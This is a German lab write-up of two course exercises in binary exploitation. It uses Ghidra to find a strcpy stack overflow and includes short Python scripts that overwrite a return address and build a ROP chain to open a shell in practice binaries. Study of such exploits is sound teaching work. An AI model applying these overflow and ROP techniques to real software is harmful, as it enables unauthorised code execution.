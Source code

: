 ```yaml
---
title: Binary Exploitation with ROP
author: Paul Nykiel
date: \today
---
```


# Erste Schritte
Die Analyze mit Ghidra ergibt, dass aus der `main` Funktion die Funktion `countAndPrint` mit Argument
`argv[1]` aufgerufen wird, falls `argc == 2`. Die Funktion `countAndPrint` führt zuerst ein `strcpy` auf einen
Buffer im Funktionsstack aus. Die Funktion `strcpy` ist unsicher und kann genutzt werden um den Stack der Funktion
`countAndPrint` zu manipulieren. Des weiteren stellt man mit Ghidra fest, dass eine Funktion `openbash` existiert,
die eine Shell öffnet. Für einen Angriff kann also die Rücksprungadresse von `countAndPrint` über den Buffer-Overflow
so geändert werden, dass die Funktion `openbash` angesprungen wird. Mit Ghidra kann außerdem herausgefunden werden,
dass die Addresse von `openbash` `0x080484B6` ist. Zudem kann abgeschätzt werden, wie lange der Buffer ungefähr sein
muss: der `char` Buffer für das `strcpy` ist 50 Bytes lang, davor liegen keine Variable, nur der `EBP`, das heißt
der Bufferoverflow muss mindestens 54 (ein Byte lange) Zeichen lang sein.

Analog zur Vorlesung wird die Eingabe mit einem kleinen Python-Skript generiert:
```python
import sys
import struct

addr = 0x080484B6

sys.stdout.buffer.write(b"a"*70+ struct.pack("@I", addr) + b'\0')
```
der Offset von 70 wurde experimentell bestimmt, gibt man das Skript an das Program 
(`psec@VirtualBox:~/pSec$ ./aufgabe1 "$(python3 a1.py)"`) dann erscheint die Meldung `Opening shell, (exit) to leave` 
und eine weitere Shell wird geöffnet.

# ROP mit Argumenten
Der funktionale Teil des Programs ist identisch zu dem Program der vorherigen Aufgabe. Die Änderungen betreffen nur
die nicht genutzten Funktionen: `openbash` existiert nicht mehr, dafür gibt es eine Reihe an neuen Funktionen.
Im Detail sind die Funktionen:

 * `char *concat(char *, char*)`: Nimmt zwei (null-terminiert) Strings entgegen und konkatiniert sie zu einem String
    (auf dem Heap), der Pointer zu diesem String wird returned.
 * `void executeCommand(int)`: führt je nach Eingabewert einen anderen Befehl aus, für `0x1020304` wird der Wert von
        `global_directory` und einer globalen Variable mit Wert `date` konkatiniert. 
        Für `-0x35014542` (`==0xcafebabe`) wird der Befehl an der Stelle von `global_directory` mit dem String `sh` konkatiniert. 
        Für alle anderen Eingaben ist der Befehl nicht wohldefiniert.
 * `void setGlobalDirectory(void *)`: setzt den Wert von `global_directory` auf den Wert des Arguments.

Um eine Shell zu öffnen reicht der Aufruf von `system` mit dem Argument `sh`. Dafür muss `executeCommand` mit dem
Argument `0xcafebabe` aufgerufen werden. Davor muss `global_directory` so gesetzt werden, dass es auf einen leeren
String, also ein Nullzeichen zeigt. Dafür muss `setGlobalDirectory` entsprechend aufgerufen werden, hierfür nehmen
wir einfach den Nullterminator des Globalen Strings `sh`. Der Nullterminator ist an Adresse `0x080487e7`.

Das heißt wir müssen die folgenden beiden Funktionen aufrufen:
```c++
setGlobalDirectory(0x080487e7);
executeCommand(0xcafebabe);
```
dafür brauchen wir noch die Addressen der beiden Funktionen, diese können wir mit Ghidra herausfinden:

 * `setGlobalDirectory`: `0x80485f9`
 * `executeCommand`: `0x804858e`

Das heißt unser Stack muss im folgenden so aussehen (aufsteigend ab Addresse von Buffer):
 * 70 Füllzeichen
 * Addresse von `setGlobalDirectory`
 * Addresse von `executeCommand`
 * Argument für `setGlobalDirectory`
 * Argument für `ExecuteCommand`

Auch hierfür wurde wieder ein kleines Python Skript geschrieben:
```python
import sys
from struct import pack

sGD = 0x80485f9
exC = 0x804858e
argSGD = 0x080487e7
argExC = 0xcafebabe

stack = pack("I", sGD) + pack("I", exC) + pack("I", argSGD) + pack("I", argExC)

sys.stdout.buffer.write(b"a"*70 + stack + b'\0')
```
Dadurch öffnet sich dann wieder eine Shell:
```bash
psec@VirtualBox:~/pSec$ ./aufgabe2 "$(python3 a2.py)"
Your name includes 50 times the char 'a'
$ 
```
